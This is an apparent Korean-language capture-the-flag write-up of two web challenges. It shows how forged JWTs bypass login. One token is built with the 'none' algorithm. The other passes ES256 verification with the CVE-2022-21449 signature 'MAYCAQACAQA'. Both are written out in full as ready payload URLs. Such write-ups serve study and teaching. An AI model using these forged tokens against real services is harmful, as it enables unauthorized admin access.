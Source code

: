 ## jalyboy-baby | web

Nong-alg JWT를 이용해서 로그인을 우회하는 문제이다.

<br>

접속하면 URL 파라미터에서 JWT를 확인할 수 있다.

guest JWT: `eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.rUKzvxAwpuro6UF6KETwbMPCLBsPGUScjSEZtQGjfX4`

<br>

이를 🔗[jwt.io](https://jwt.io/) 에 올려보거나, 직접 base64 디코딩는하는 방법으로 값을 확인한다.

```

$ echo eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}

$ echo eyJzdWIiOiJndWVzdCJ9 | base64 -d
{"sub":"guest"}

$ echo rUKzvxAwpuro6UF6KETwbMPCLBsPGUScjSEZtQGjfX4 | base64 -d
�B��0����Az(D�l��,
                  ��!��}~base64: invalid input

```

<br>

JWT 서명 관련 취약점을 찾아보던 중, None alg로 이를 우회할 수 있다는 글을 발견했다. 

 

🔗[https://blog.pentesteracademy.com/hacking-jwt-tokens-the-none-algorithm-67c14bb15771](https://blog.pentesteracademy.com/hacking-jwt-tokens-the-none-algorithm-67c14bb15771)

<br>

위 글을 참고하여 JWT를 수정한다.

```

$ echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=  (=는 제거한다.)

$ echo -n '{"sub":"admin"}' | base64
eyJzdWIiOiJhZG1pbiJ9

```

=> `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9` (시그니처는 없기 때문에 비워둔다)

<br>

최종 쿼리는 아래와 같다.

```
http://34.84.28.50:10000/?j=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9
```

<img src="https://github.com/user-attachments/assets/cc4c6c79-6325-41dd-b8b6-d0051599ebb1" width=500>

<br>
<br>

## jalyboy- jaligirl

CVE-2022-21449 로 풀 수 있는 문제이다

이전 문제와 다르게 token의 서명 부분이 랜덤으로 주어진다.

```

eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.
567Iblho8boW0SVvDYrHx573LxG7_WVRUnwSyRj8TlAXcIZ2lpGhx6OAEpklTam89CmYlLBbKLdD-BiQpmedmw

```

<br>

또다른 차이점은 사용하는 알고리즘이다. 이 문제에서 사용한 jwt알고리즘은 es256 이다.

```

$ echo eyJhbGciOiJFUzI1NiJ9 | base64 -d
{"alg":"ES256"}

$ echo eyJzdWIiOiJndWVzdCJ9 | base64 -d
{"sub":"guest"}
 
```
 
<br>

es256을 사용하는 jwt 의 취약점에 대해 찾아보던 중 서명 부분에 MAYCAQACAQA를 넣으면 우회가 된다는 포스트를 발견했다. (=CVE-2022-21449)

🔗[https://github.com/ticarpi/jwt_tool/issues/65](https://github.com/ticarpi/jwt_tool/issues/65)

🔗[https://github.com/jwtk/jjwt/issues/726](https://github.com/jwtk/jjwt/issues/726)

<br>

MAYCAQACAQA를 사용하여 es256 서명을 우회할 수 있었다.

```
http://34.85.123.82:10001/?j=eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA
```

<img src="https://github.com/user-attachments/assets/c683fafc-f57a-4c5a-8b6b-c52ed3592c09" width=500>
